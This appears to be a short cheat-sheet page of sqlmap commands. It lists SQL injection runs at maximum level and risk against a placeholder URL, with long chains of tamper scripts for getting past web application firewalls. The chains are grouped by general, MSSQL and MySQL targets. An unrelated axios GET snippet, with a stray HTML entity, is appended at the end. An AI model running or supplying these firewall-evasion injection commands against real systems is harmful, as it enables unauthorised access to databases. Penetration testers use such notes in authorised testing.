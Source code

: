 ## sqlmap tamper scripts

You can use all the scripts one line

```
sqlmap -u 'http://www.site.com:80/search.cmd?form_state=1’ \
       --level=5 --risk=3 -p 'item1' \
--tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,randomcomments,securesphere,space2comment,space2dash,space2hash,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,sp_password,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
```

### General Tamper testing

```
sqlmap -u 'http://www.site.com:80/search.cmd?form_state=1’ \
       --level=5 --risk=3 -p 'item1' \
--tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

#### MSSQL

```
sqlmap -u 'http://www.site.com:80/search.cmd?form_state=1’ \
       --level=5 --risk=3 -p 'item1' \
—tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

### MySQL

```
sqlmap -u 'http://www.site.com:80/search.cmd?form_state=1’ \
       --level=5 --risk=3 -p 'item1' \
--tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
```

## Nodejs axios

Basic Usage

```javascript
const axios = require('axios');
axios.get('https://jxtx.gitlab.io/&#39;)
.then( function (response) {
console.log(response.status);
console.log(response.headers);
});
```
